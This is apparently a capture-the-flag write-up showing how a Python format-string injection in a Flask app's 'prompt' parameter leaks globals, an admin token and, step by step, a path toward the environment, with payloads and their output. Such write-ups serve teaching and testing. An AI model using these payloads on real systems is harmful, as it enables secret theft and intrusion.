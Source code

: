 The `return render_template(...)` line has a Python format string vulnerability, as the string is a format string (indicated by the `f` at the start) and is then run with a `.format()`, meaning we can inject our own variables and potentially exfiltrate sensitive information.

I start with some simple payloads to test it: `{0.__globals__}`

We can send this on the `prompt` attribute on localhost to test: `http://localhost/admin?prompt={0.__globals__}`

This returns the globals of the current execution:

```
 {'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7ff98d7d2220>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, '__file__': '/app/app.py', '__cached__': None, 'Flask': <class 'flask.app.Flask'>, 'render_template': <function render_template at 0x7ff98c419040>, 'request': <Request 'http://localhost:5000/admin?prompt={0.__globals__}' [GET]>, 'Response': <class 'flask.wrappers.Response'>, 'redirect': <function redirect at 0x7ff98c5ac0d0>, 'url_for': <function url_for at 0x7ff98c618e50>, 'visit_report': <function visit_report at 0x7ff98c3dd670>, 'token_hex': <function token_hex at 0x7ff98c9ec940>, 'X_Admin_Token': '68fd3889bf98101b1639d81d8428955d', 'run_cmd': <function run_cmd at 0x7ff98d81d040>, 'sanitize_input': <function sanitize_input at 0x7ff98c0a9940>, 'app': <Flask 'app'>, 'admin': <function admin at 0x7ff98c1629d0>, 'index': <function index at 0x7ff98c162a60>, 'your_name': <function your_name at 0x7ff98c162c10>, 'report': <function report at 0x7ff98c162ca0>}None
```

We need to find a way to read the environment, generally this is stored in `os`. I start by looking in `Flask`:
`{0.__globals__[Flask].__dict__}`

This returns some information about the Flask app:

```
 {'__module__': 'flask.app', '__annotations__': {'request_class': 'type[Request]', 'response_class': 'type[Response]', 'session_interface': 'SessionInterface'}, '__doc__': "The flask object implements a WSGI application and acts as the central\n object. It is passed the name of the module or package of the\n application. Once it is created it will act as a central registry for\n the view functions, the URL rules, template configuration and much more.\n\n The name of the package is used to resolve resources from inside the\n package or the folder the module is contained in depending on if the\n package parameter ...: <function Flask.test_request_context at 0x7ff98c3dd4c0>, 'wsgi_app': <function Flask.wsgi_app at 0x7ff98c3dd550>, '__call__': <function Flask.__call__ at 0x7ff98c3dd5e0>}None
```

Inside this is `__init__`, we can use that to get to an initialised Flask:
`{0.__globals__[Flask].__init__.__globals__}`

```
```